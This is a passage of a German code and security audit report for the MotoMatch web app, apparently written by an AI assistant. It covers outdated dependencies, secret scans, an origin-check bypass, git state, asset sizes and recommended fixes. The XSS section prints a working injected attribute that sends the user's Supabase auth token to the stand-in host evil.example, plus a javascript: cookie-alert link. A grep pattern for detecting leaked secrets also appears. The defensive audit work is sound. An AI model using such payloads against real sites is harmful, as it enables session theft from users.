@sentry/node            8.55.2   8.55.2  10.71.0    ← 2 Majors
@supabase/supabase-js  2.112.2  2.112.4  2.112.4
livekit-client          2.21.0   2.22.1   2.22.1
livekit-server-sdk      2.17.0   2.18.0   2.18.0
terser                  5.46.2   5.51.2   5.51.2
three                  0.183.2  0.183.2  0.185.1
vite                    5.4.21   5.4.21    8.2.2    ← 3 Majors
```

### Secrets im ausgelieferten Bundle
```
$ grep -roE "(sk-[A-Za-z0-9_-]{20,}|tvly-[A-Za-z0-9_-]{10,}|service_role|SUPABASE_SERVICE_ROLE|LIVEKIT_API_SECRET|VAPID_PRIVATE)" dist/
(keine Treffer)
```
**Ergebnis: keine Server-Secrets im Client-Bundle.** Die `VITE_`-Trennung ist korrekt eingehalten. Im Bundle steht erwartungsgemäß nur die Supabase-URL und der Anon-Key.

### Dev-Server startet
```
$ npx vite --port 5199 --strictPort
  VITE v5.4.21  ready in 815 ms
  ➜  Local:   http://localhost:5199/

$ curl -s -o /dev/null -w "%{http_code}" http://localhost:5199/          → 200
$ curl -s -o /dev/null -w "%{http_code}" http://localhost:5199/src/main.js → 200
```
**Keine Fehler beim Start.**

### Origin-Prüfung umgangen (Befund 4.3)
```
$ curl -s -X POST http://localhost:5199/api/ai-match \
       -H 'Content-Type: application/json' -d '{}'
{"error":"Forbidden origin"}   [403]

$ curl -s -X POST http://localhost:5199/api/ai-match \
       -H 'Content-Type: application/json' \
       -H 'Origin: http://localhost:5199' \
       -d '{"answers":{},"bike":{}}'
{"explanation":"Leider benötige ich mehr Informationen, um ein passendes Motorrad
 für dich empfehlen zu können."}   [200]
```
**Ein zusätzlicher Header genügt.** Der Aufruf ging an OpenAI durch und hat echte Token verbraucht — es war der einzige Aufruf dieser Art in diesem Audit.

### XSS-Ausgabe belegt (Befunde 4.1, 4.2)
```
$ node scratchpad/xss-check.mjs
1) style-Attribut OHNE esc (community.js:900):
   <div class="mmc-avatar" style="background:red" onmouseover="fetch('//evil.example/?t='+localStorage.getItem('sb-x-auth-token'))" x="">AB</div>

2) href MIT esc (community.js:1190) - esc filtert javascript: nicht:
   <a href="javascript:alert(document.cookie)" download="x">Datei</a>

3) Gegenprobe, dieselbe Farbe MIT esc:
   <div style="background:red&quot; onmouseover=&quot;fetch(&#39;//evil.example/?t=&#39;+localStorage.getItem(&#39;sb-x-auth-token&#39;))&quot; x=&quot;">AB</div>
```
Das Skript bildet `esc()` aus `util.js:2` und die Vorlagenzeichenketten aus `community.js:900` bzw. `:1190` exakt nach.

### Statische Zählungen
```
$ grep -ro "innerHTML" src/ | wc -l                              → 163
$ grep -rn "catch\s*{}\|catch\s*([a-z]*)\s*{}" src/ api/ | wc -l  → 71
$ grep -rn "console\." src/ api/ public/sw.js | wc -l             → 33  (davon 4× console.log)
$ grep -rn "TODO\|FIXME\|HACK\|XXX" src/ api/ *.js                → 1
    src/js/marketplace.js:9: *  TODO: Deploy Supabase Edge Function and remove VITE_TAVILY_KEY
$ grep -ro "role=" src/js/ | wc -l                                → 7
$ grep -ro "tabindex" src/js/ | wc -l                             → 2
$ grep -ro "aria-label" src/js/ | wc -l                           → 63
$ grep -ro "<button" src/js/ | wc -l                              → 353
```

### Git-Zustand
```
$ git status --porcelain | wc -l
30      (29 vorbestehend + AUDIT-FORTSCHRITT.md aus diesem Audit)

 M .claude/launch.json      M src/js/community-api.js
 M CLAUDE.md                M src/js/community.js
 M index.html               M src/js/drop-animation.js
 M public/sw.js             M src/js/feedback.js
 M src/js/account.js        M src/js/garage.js
 M src/js/app.js            M src/js/landing.js
 M src/js/auth.js           M src/js/matching.js
 M src/js/bike-detail.js    M src/js/push.js
 M src/styles/main.css      M src/js/util.js
 M supabase/schema.sql
?? public/apple-touch-icon.png   ?? src/js/match-history.js
?? public/icon-192.png           ?? src/js/nav.js
?? public/icon-512.png           ?? src/js/stickers.js
?? public/manifest.webmanifest   ?? src/js/swipe.js
?? src/js/install.js             ?? src/js/viewport.js

$ git branch -a
  deploy/karte-sidebar-batch
* fix/vercel-lfs
  main
  remotes/origin/{HEAD→main, deploy/karte-sidebar-batch, fix/vercel-lfs, main}

$ git lfs ls-files
(leer — trotz .gitattributes mit *.glb filter=lfs)
```

### Muster in der Historie
```
$ git log --oneline -40
```
Von 36 Commits betreffen **15 die Community**, davon **9 ausdrücklich Fehlerbehebungen** an Realtime und Voice: `b376078` „Fix joining a talk never publishing presence", `8915a7d` „Fix DM/group realtime append targeting wrong DOM element", `d88bafb` „Fix DM realtime updates", `20f3cf5` „fix: Supabase Realtime für direkte Nachrichten", `864b44b` „Fix community tab: live voice/channel updates, message sync bugs", `4c30379` „Fix group creation failing in production: wrong insert order for RLS", `0643a56`/`874a63f` (zweimal dasselbe Thema), `174b19f`.

**Der Realtime- und Voice-Bereich von `community.js`/`community-api.js` ist nachweislich dein Problemherd** — dieselben Stellen werden immer wieder angefasst. Das deckt sich mit den Befunden 7.1 bis 7.3.

### Größen
```
$ du -sh dist public
111M    dist
 98M    public

$ find public -type f -not -name '._*' -exec ls -la {} \; | sort -k5 -rn | head -6
   13.61 MB  public/hdri/studio.hdr
    8.76 MB  public/bikes/Quiz Bike/akira_guy_on_motorcycle_animated.glb
    7.97 MB  public/bikes/harley_seventytwo_2015.png
    7.72 MB  public/bikes/haendler_beratung.png
    7.72 MB  public/bikes/Händler & beratung .png
    4.45 MB  public/rider/Front.png
```

---

## 8. Was solide ist

Damit hier nicht nur steht, was fehlt — das Folgende ist gut gebaut und sollte nicht angefasst werden.

**`api/livekit-token.js`** ist der beste Code im Projekt. Es prüft die Session serverseitig, arbeitet bewusst mit dem Anon-Key im RLS-Kontext des Nutzers statt mit Service-Role, validiert die Raum-ID gegen ein echtes UUID-Muster (und begründet im Kommentar, warum eine Zeichenklasse nicht reicht), prüft bei Direktanrufen sowohl Teilnahme als auch Freundschaft, und denkt daran, dass Blockieren die Freundschaft löst und damit den Zugang entzieht. Wenn du `ai-match` und `search-places` härtest (Befund 4.3), ist das die Vorlage.

**Die Google-Maps-Einwilligung** (`garage.js:832-864`) ist eine korrekte 2-Klick-Lösung: Platzhalter mit ehrlichem Hinweis auf die IP-Übertragung, Skript wird erst nach ausdrücklichem Klick geladen, Entscheidung wird gemerkt. Das ist der Mechanismus, der bei den anderen Drittanbietern fehlt — nicht das Wissen darum.

**Das Nachladen der Quiz-Assets** (`landing.js:653-675`) macht genau das Richtige: Vorbereitung erst bei erkennbarer Absicht (Zeiger über dem Knopf), Rückfallebene nach 12 Sekunden, und nur auf einer Verbindung, die es hergibt. Der Kommentar erklärt, was vorher falsch war. Dasselbe gilt für das Hero-Video (`landing.js:327-346`) mit Rücksicht auf `saveData` und `prefers-reduced-motion`.

**Die Datenschutz-Filterung in Sentry** (`monitoring.js:10-52`) entfernt E-Mails per Regex, redigiert Schlüssel nach Muster, löscht `event.user.email`, `ip_address` und `username`, und geht rekursiv durch Breadcrumbs. Sobald der DSN gesetzt ist, ist das sofort einsatzbereit.

**Die serverseitige Nachvalidierung der Mentions** (`api/push-trigger.js:79-89`) ist genau die Denkweise, die dem restlichen Schema fehlt: „`record.mentions` kommt vom Client, RLS prüft nur `author_id`, also niemals ungeprüft an beliebige uids pushen." Der Code prüft die Empfänger gegen `group_members` nach. Hier hat jemand die richtige Frage gestellt.

**`nav.js`** löst ein echtes Problem sauber: Bildschirme ohne eigene Adressen bekommen funktionierende Vor- und Zurück-Navigation plus Wiederherstellung nach dem Neuladen, über eine serialisierbare Beschreibung statt über Closures. Der Kopfkommentar erklärt beide vorherigen Fehler.

**Die Touch- und Mobil-Details** — Long-Press statt `:hover` mit Bewegungstoleranz (`community.js:1875-1949`), Tastaturhöhe als CSS-Variable (`viewport.js`), verschiebbarer Feedback-Knopf mit Einrasten (`feedback.js:59-113`), getrennte Installationswege für Chromium und WebKit (`install.js`).

**Die Trennung `community.js` / `community-api.js`.** Trotz 7.000 Zeilen ist die Grenze konsequent eingehalten: `community.js` fasst Supabase nie direkt an. Genau deshalb lassen sich die Befunde 7.1, 7.2 und 8.2 an einer Stelle beheben statt an fünfzig.

**Die Kommentare insgesamt.** Sie erklären überdurchschnittlich oft das *Warum* und benennen konkrete frühere Fehler („s. früherer group_bans-Bug", „genau der Zustand, der die Sache so lange unbemerkt gelassen hat"). Das ist selten und wertvoll. Die sieben Stellen aus 13.1, an denen sie nicht mehr stimmen, ändern daran nichts.

**Die Fehlerbehandlung beim Nachrichtenversand** (`community-api.js:1171-1259`) trifft die richtige Entscheidung: bei fehlender Datenbankspalte lieber ehrlich scheitern als den Anhang still zu verlieren — mit einer ausführlichen Begründung, warum stiller Datenverlust die schlechteste Variante ist. Das ist der Maßstab, an dem sich die 28 Stellen aus Befund 7.1 messen lassen.

---

## 9. Entscheidungen und offene Punkte

Sechs meiner ursprünglichen Fragen ließen sich selbst beantworten — durch Abfragen gegen dein Vercel- und Supabase-Projekt und durch Recherche zu den Händlerdaten. Was danach noch Entscheidungen waren, habe ich getroffen und begründet. Was übrig bleibt, steht am Ende.

### Geprüft statt gefragt

| Frage | Antwort | Folge |
|---|---|---|
| Ist „Confirm email" an? | **Nein** — `mailer_autoconfirm: true` | Registrierung ist *nicht* kaputt (gut), aber jeder kann Konten auf fremde Adressen anlegen (3.6). Einschalten geht erst nach 3.6b |
| Welche Env-Variablen sind in Prod gesetzt? | **13 von 16**, alles Serverseitige ist da | Meine Annahme „alle `/api/*` = 403" war falsch. Es fehlen `VITE_GMAPS_KEY` und die beiden Sentry-DSN (9.1, 12.1) |
| Welcher Branch, welche Node-Version? | Projekt `moto-matchwbapp`, `nodeVersion: "24.x"` | `.nvmrc` sagt 20 und gilt nirgends (9.6) |
| Gibt es Preview-Umgebungen? | Variablen existieren **nur** für Production | Preview-Deploys laufen im `OFFLINE_MODE` (9.4) |
| Sind die Händler in `dealers.js` echt? | **Nein** — 2 von 2 geprüften Einträgen falsch | „Zweirad Hölscher" ist ein Fahrradladen in Ascheberg; „Harley-Davidson Münster" existiert nicht (16.4) |
| Stimmen die Preise in `gear.js`? | **Nein** — 32 von 64 widersprechen dem eigenen Bereich | Feld `price` entfernen (16.8) |

### Meine Entscheidungen

**1. `dealers.js` und die erfundenen Inserate: löschen, nicht pflegen.**
Die Recherche hat den ungünstigsten Fall bestätigt — reale Betriebe mit falschen Angaben und Markennamen für nicht existierende Händler. Das ließe sich theoretisch korrigieren, aber dann pflegst du dauerhaft ein Händlerverzeichnis von Hand, das Google Places dir kostenlos und aktuell liefert. Der einzige Grund für den Rückfall war „lieber irgendetwas als nichts" — und das ist bei Adressen und Preisen genau die falsche Regel. Ersatz: ehrlicher Leerzustand, den `garage.js:1428-1433` für „keine Ergebnisse" schon formuliert hat.

**2. Google Maps bleibt, der Key kommt nach Produktion.**
Die Karte ist eines der vier Kernversprechen auf der Startseite, und die Einwilligungslösung dafür ist bereits sauber gebaut. Ohne `VITE_GMAPS_KEY` ist sie aber nicht nur tot, sie zieht die erfundenen Händler nach sich. Key setzen und in der Google Cloud Console per HTTP-Referrer auf die eigene Domain beschränken — sonst ist er im Bundle für jeden nutzbar. Falls kein Abrechnungskonto dahintersteht: den Kartenbereich ehrlich als „kommt bald" ausweisen. Beides ist besser als der Ist-Zustand.

**3. 3D bleibt — aber die Assets werden halbiert.**
Das war die Frage, bei der „streichen" die naheliegende Antwort gewesen wäre: 162 kB gzip Decoder, ein 13,6-MB-HDRI, ein 8,76-MB-Fahrermodell. Trotzdem: ein Motorrad-Konfigurator ohne 3D-Ansicht ist eine Tabelle, und das ist das Einzige, was MotoMatch von einem Vergleichsportal unterscheidet. Die Kosten stecken nicht im Feature, sondern in der Auslieferung. Also: `studio.hdr` (13,6 MB) durch eine kleine Umgebungsmap ersetzen oder ganz weglassen — für Karosserie-Spiegelungen reicht deutlich weniger; das Fahrermodell nur im Quiz laden, nicht mit dem Konfigurator; DRACO aus `three/examples/jsm/libs/draco/` statt von gstatic (löst nebenbei den Drittanbieter-Punkt aus 16.3). Das Feature bleibt, die Ladezeit fällt deutlich.

**4. Apple-Login: entfernen.**
In Supabase ist der Apple-Provider aus (`"apple": false`), und der Client-Pfad in `auth.js:186-207` legt selbst im Online-Betrieb nur ein `localStorage`-Konto an, das in Supabase nie existiert. Das ist kein halbfertiges Feature, es ist ein Feature, das im Erfolgsfall etwas Kaputtes tut. Reparieren hieße: Apple-Developer-Programm (99 $/Jahr), Services-ID, Domain-Verifikation — für eine Beta ohne iOS-App. Löschen von `loginWithApple`, `loginOrRegisterFromProvider`, `decodeJwtPayload`, `loadScriptOnce` und `APPLE_CLIENT_ID` nimmt ~60 Zeilen, einen externen Skript-Host und einen Eintrag aus der Datenschutzerklärung mit. Google-OAuth bleibt (`"google": true`, funktioniert).

**5. Amazon-Affiliate: jetzt nicht.**
Die Links bleiben, Tags kommen keine dazu. Begründung: mit Beta-Reichweite ist der Ertrag praktisch null, während die Pflichten sofort gelten (Kennzeichnung nach § 6 DDG, PartnerNet-Hinweis) — und die müssten in dieselbe Datenschutz- und Impressumsarbeit, die ohnehin schon der Engpass ist. Wenn der Ausrüstungsbereich nach der Beta nachweislich genutzt wird, ist das ein sauberes Folgeprojekt mit dann klarem Nutzen.

**6. `price` in `gear.js`: raus, Bereiche bleiben.**
32 von 64 widersprechen sich selbst — das ist kein Pflegerückstand, das sind zwei nie abgeglichene Datenquellen. Ein Bereich („ca. 150–250 €") altert langsam und verspricht nichts; ein Eurobetrag neben einem Shop-Link verspricht etwas, das du nicht halten kannst.

**7. Bikes bleiben vorerst im Code.**
Zehn Modelle in `matching.js` sind kein Datenbankproblem. Der Umzug lohnt ab etwa 30 Modellen oder sobald du Einträge ohne Deploy ändern willst. Was jetzt schon weg muss, ist der Kommentar, der 40.000 behauptet (13.1) — und `setCatalog()` sollte entweder einen Aufrufer bekommen oder verschwinden.

**8. E-Mail-Bestätigung einschalten — aber erst nach dem Trigger.**
Das ist die Entscheidung mit der wichtigsten Reihenfolge im ganzen Backlog. Der Schalter allein macht die Registrierung sofort kaputt (3.6b). Also: erst Profilanlage in den `AFTER INSERT`-Trigger, dann „Confirm email" an. Umgekehrt legst du deine Beta lahm.

**9. Drittanbieter-Bilder: selbst hosten.**
Die Alternative wäre eine zweite Einwilligungsschranke vor dem Ausrüstungsbereich — für Produktfotos ein unverhältnismäßiger Klick. 64 Bilder herunterladen, zu WebP konvertieren, mit ausliefern: löst Einwilligung, Hotlinking und Ladezeit in einem Schritt, und der Louis-Shop hat beim Abruf bereits 403 geliefert, was zeigt, wie belastbar die Verlinkung ist.

### Was ich nicht entscheiden kann

**1. Gibt es ein Backup der Supabase-Datenbank?**
Das sehe ich weder im Repo noch über die CLI. Im Free-Plan legt Supabase keine automatischen Sicherungen an. Prüfen unter *Database → Backups* — und falls nicht: `supabase db dump` vor Backlog-Punkt 5, nicht danach.

**2. Wie viele Beta-Tester, und wird die Adresse öffentlich beworben?**
Das ändert die Dringlichkeit von 4.3 (offener KI-Proxy) erheblich. Bei zehn Testern über einen nicht verlinkten Link ist es theoretisch; sobald die Domain irgendwo steht, finden Bots sie in Stunden. Die Ausgabenlimits aus Backlog-Punkt 2 machen den Unterschied in beiden Fällen kleiner.

**3. Soll die Beta öffentlich oder auf Einladung laufen?**
`disable_signup: false` heißt: jeder mit der URL kann ein Konto anlegen. Für eine kontrollierte Beta wäre eine Einladungsliste der einfachere Schutz als jede der Maßnahmen in diesem Report — und sie kauft dir Zeit für die P1-Punkte.
